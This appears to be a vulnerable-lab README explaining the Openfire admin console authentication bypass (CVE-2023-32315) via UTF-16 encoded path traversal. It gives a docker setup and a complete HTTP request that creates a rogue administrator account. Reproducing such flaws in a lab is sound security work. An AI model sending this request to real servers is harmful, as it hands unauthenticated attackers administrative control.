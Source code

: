 # Openfire Admin Console Authentication Bypass (CVE-2023-32315)

[中文版本(Chinese version)](README.zh-cn.md)

Openfire is a real time collaboration (RTC) server licensed under the Open Source Apache License. It uses the only widely adopted open protocol for instant messaging, XMPP (also called Jabber).

In the version prior to 4.7.4 and 4.6.7, Openfire's administrative console (the Admin Console), a web-based application, was found to be vulnerable to a path traversal attack via the setup environment. This permitted an unauthenticated user to use the unauthenticated Openfire Setup Environment in an already configured Openfire environment to access restricted pages in the Openfire Admin Console reserved for administrative users.

References:

- <https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm>
- <https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w>

## Vulnerable Environment

Execute following command to start a Openfire server 4.7.4:

```
docker compose up -d
```

After the server is started, open the link `http://your-ip:9090` then you will be redirected to login page if you don't have the authentication.

## Exploit

More than a decade ago, an path traversal issue was found in Openfire admin console, CVE-2008-6508. Attackers are able to use the `/setup/setup-/../../[page].jsp` to bypass the authentication checks and visit arbitratry page without knowning the admin username and password.

Since then the path traversal protections were already in place to protect against exactly this kind of attack.

A later upgrade of the embedded webserver included support for non-standard URL encoding of UTF-16 characters. The path traversal protections in place in Openfire were not updated to include protection against this new encoding. So attackers are able to use the `/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp` to bypass the path traversal protection again.

To exploit this issue, the first step is to create a new administrator through following request:

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken


```

Although an exception is raised in response but an account with both username and password "hackme" is created.

![](1.png)

Then log in to the admin console with this account, and you can see that `hackme` is already an administrator.

![](2.png)
